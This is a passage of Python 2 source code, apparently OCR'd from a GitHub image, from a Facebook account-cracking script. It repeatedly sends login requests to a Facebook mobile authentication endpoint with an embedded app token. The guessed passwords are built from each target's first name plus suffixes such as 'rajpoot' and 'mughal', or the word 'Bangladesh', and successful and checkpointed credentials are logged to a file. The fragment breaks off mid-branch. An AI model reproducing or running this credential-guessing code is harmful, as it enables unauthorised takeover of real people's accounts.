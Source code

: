 			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = 'Bangladesh'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = a['first_name'] + 'rajpoot'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + 'mughal'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]: